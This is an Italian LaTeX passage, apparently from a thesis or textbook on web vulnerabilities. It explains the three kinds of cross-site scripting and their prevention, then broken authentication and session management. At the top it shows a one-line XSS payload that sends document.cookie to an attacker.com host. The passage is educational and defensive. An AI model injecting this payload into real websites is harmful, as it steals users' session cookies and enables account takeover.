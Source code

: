\begin{lstlisting}[language=PHP]
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
\end{lstlisting}

Esistono tre tipologie di cross site scripting:
\begin{itemize}
\item Stored: Il codice viene iniettato nel server in modo permanente, in un database, in un forum, in un commento, ecc. La vittima ottiene lo script malevolo ad ogni visita della pagina.
\item Reflected: Il codice malevolo non viene iniettato nel server ma viene inviato alla vittima attraverso mezzi alternativi, come un email contenente un link. Quando l'utente viene convinto a cliccare su tale link il codice viene eseguito.
\item DOM based: Un payload malevolo viene eseguito come risultato della modifica del DOM\footnote{Document Object Model} del browser dell'utente. La risposta HTTP in questo caso non cambia ma il codice contenuto nella pagina viene eseguito in modo diverso a causa delle modifiche effettuate al DOM.\\
E' diverso da stored e reflected XSS poichè in questo caso il payload melevolo non è nella pagina di risposta del server ad una richiesta.
\end{itemize}

Vulnerabilità di tipo XSS hanno impatto significativo sull'utente, meno significativo sull'applicazione (ad eccezione del caso stored, in cui l'applicazione è direttamente coinvolta).\\
Prevenire vulnerabilità di tipo XSS comporta la separazione tra dati non fidati ed il contenuto attivo del browser. E' quindi necessario effettuare l'escape dei contenuti in input basati su codice HTML, a seconda del contesto in cui tali dati verranno poi utilizzati.

\subsection{Broken authentication and session management}
Funzionalità come l'autenticazione e la gestione delle sessioni utente sono spesso implementate non correttamente, consentendo all'attaccante di ottenere passwords, chiavi, tokens di sessione o di impersonificare altri utenti.\\
Il classico esempio di questa vulnerabilità si verifica quando il timeout della sessione utente non è settato correttamente. Supponendo che l'utente sia loggato nell'applicazione attraverso un browser su un computer e al termine dell'uso si dimentichi di cliccare su logout. Un attaccante potrebbe collegarsi al sito attraverso lo stesso computer e ritrovarsi già loggato nell'applicazione, con il profilo del vecchio utente. \\
Questa tipologia di vulnerabilità ha radici architetturali oltre che implementative, per tale motivo le contromisure consistono nel seguire raccomandazioni e specifiche per il management delle sessioni e dell'autenticazione utente.

